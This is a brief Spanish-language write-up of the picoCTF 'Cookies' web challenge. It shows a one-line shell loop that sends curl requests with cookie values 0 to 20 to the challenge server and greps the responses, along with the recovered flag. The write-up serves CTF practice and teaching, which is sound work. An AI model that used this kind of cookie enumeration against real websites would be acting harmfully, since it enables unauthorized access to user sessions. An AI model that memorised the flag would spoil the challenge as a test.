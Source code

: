 #### escripción

¿A quién no le encantan las galletas? Intenta descubrir cuál es la mejor. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

---

vamos a usar la consola con el link de la pagina
con el comando curl

luisquintero@DESKTOP-P53ABHB:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"
; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
luisquintero@DESKTOP-P53ABHB:~$

Y eso nos da la bandera, investigando con un for todas las cookies posibles y filtrando con un grep

